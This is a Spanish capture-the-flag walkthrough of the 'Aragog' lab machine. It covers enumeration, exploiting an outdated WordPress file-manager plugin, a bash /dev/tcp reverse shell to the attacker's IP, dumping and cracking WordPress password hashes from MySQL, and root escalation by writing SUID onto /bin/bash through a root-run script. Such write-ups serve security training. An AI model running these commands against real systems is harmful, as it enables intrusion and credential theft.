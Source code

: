 ### Tags `wordpress` `pspy` `mysql`

# Reconocimiento (**LINUX**)

Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/e7813e89-48e9-445d-8b64-0387667f2680)

# Escaneo (**22, 80**)

```css
sudo nmap -p22,80 -sCV <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/314358fb-f288-4e35-8ea0-38811821cb24)

# Port 80

Esta es al web que tiene una imagen, nos *descargamos la imagen* para ver si había algo de estenografía pero no.

![image](https://github.com/user-attachments/assets/8eadce0a-cef0-4652-a331-e54244cb87f8)

## Gobuster

Enumeramos directorios y encontramos `/blog`

```ruby
gobuster dir -u http://<IP>  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html 
```

![image](https://github.com/user-attachments/assets/5815384e-fd30-4e1c-8d38-f9b45a30954e)

Entramos y nos encontramos con un **wordpress**, y un dominio `href="http://wordpress.aragog.hogwarts` que lo agregamos al **/etc/hosts** (también agregar `aragog.hogwarts`) 

![image](https://github.com/user-attachments/assets/fd35b325-7831-49f2-8b91-a62e39670d34)


Jugando otra con Gobuster encontramos este `wp-login.php` que por defecto tienen todos los wordpress

```ruby
 gobuster dir -u http://wordpress.aragog.hogwarts/blog/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

![image](https://github.com/user-attachments/assets/4a3f9a48-e7ec-4790-99a0-c256394e8b11)

# Wpscan

Ahora lo que hacemos es que como tenemos un **CMS wordpress**., jugamos con la herramienta `wpsacn` para que nos enumere plugins de manera agresiva

```ruby
wpscan --url http://wordpress.aragog.hogwarts/blog/ --plugins-detection aggressive 
```

Nos ha encontrado 2 el `akismet` que suele estar en todos los wordpress y también nos encontró el `wp-file-manager` 

![image](https://github.com/user-attachments/assets/1182f715-8b8f-4220-9334-4322b270936b)

Si observamos bien ahí nos dice que la última versión del plugin es la `8.0` y que la máquina tiene la `6.0` por ende esta desactualizada

![image](https://github.com/user-attachments/assets/1111ad3b-5ed6-4285-a2eb-505243ee77a2)

Lo que hacemos es buscar por Google y encontramos este [Exploit](https://www.exploit-db.com/exploits/51224) y lo que hacemos es descargárnoslo y poner: 

```ruby
python3 ./51224.py http://wordpress.aragog.hogwarts/blog id 
```

![image](https://github.com/user-attachments/assets/94b82743-e5c8-49ca-b8df-b5f83abbcb3a)

Ahora nos mandamos una Reverse-Shell de esta forma:

```ruby
python3 ./51224.py http://wordpress.aragog.hogwarts/blog/ "bash -c 'bash -i >& /dev/tcp/192.168.0.159/443 0>&1'"
```

![image](https://github.com/user-attachments/assets/add8197b-fd57-4e18-a55e-0e06f254e369)

Hacemos el tratamiento de la `TTY`

```ruby
script /dev/null -c bash
Ctrl + z
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 42 columns 189
```

# Escalada (``hagrid98``)

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/9e28c6e5-146c-47e0-9471-8d87a4bbb6e8)


### Mysql

Enumerando encontramos credenciales en `/etc/wordpress/` para la base de datos ---> `root:mySecr3tPass`

![image](https://github.com/user-attachments/assets/828bf7da-aad8-4e1c-9621-a8607fe2568c)

Entramos dentro poniendo

```css
mysql -u root -p
```

 Comandos:
	- `show databses` : listamos las bases de datos existentes
	- `use wordpress` : para meternos dentro de la base de datos Wordpress
	- `show tables` : para que lista las tablas dentro de esa base de datos


![image](https://github.com/user-attachments/assets/29c5b66e-7d61-44c0-9178-4ab8f712fe7e)

Una ves nos listó las tablas queremos:
	- `describe wp_users` : que me describa que tipo de tabla es, que campos contiene, que son , etc
	- `select user_login,user_pass from wp_users` : para que me dumpee todo dentro de esos parámetros de la tabla seleccionada


![image](https://github.com/user-attachments/assets/3a4085fb-0fed-4488-8376-36e5d7035e0c)

### John The Ripper

Nos copiamos el hash para romperlo y obtener la contraseña en texto plano

```ruby
nano hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

![image](https://github.com/user-attachments/assets/c52d8937-c1a6-43ba-ac56-827a49dc1816)
![image](https://github.com/user-attachments/assets/994c75c9-06c1-412b-8ea1-de25797a2f5c)

# Escalada ``ROOT``

- Lo que hacemos es jugar con [Pspy64](https://github.com/DominicBreuker/pspy/releases) para que nos reporte todas la tareas que se están ejecutando por detrás.
	- Nos lo descargamos, le damos permisos y lo transferimos a la máquina víctima

![image](https://github.com/user-attachments/assets/40a61ed7-2fb4-4c34-8d9a-edac7e2fc13e)
![image](https://github.com/user-attachments/assets/1289edc5-55d0-4ab8-97e5-4d07aded8bde)

Lo ejecutamos así:

```css
./pspy64
```

Y observamos esto:

![image](https://github.com/user-attachments/assets/e9ed9d20-11cd-4ea1-8d3c-28fe5baf1794)

Como es una tarea  que la esta ejecutando root  y hace un `/bin/bash` hacemos lo siguiente

![image](https://github.com/user-attachments/assets/0cba1633-46b0-4116-b09e-c6cdcd8a793e)

Como vimos que éramos los **propietarios de ese script** lo que hicimos es convertir en ``SUID`` la bash:

```ruby
nano .backup.sh
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/cc953029-b7d6-4eee-9fe0-074ae219af9f)

Y tenemos la última flag siendo `root`

![image](https://github.com/user-attachments/assets/b62dafd5-83c1-4c19-985c-3af91aacc326)





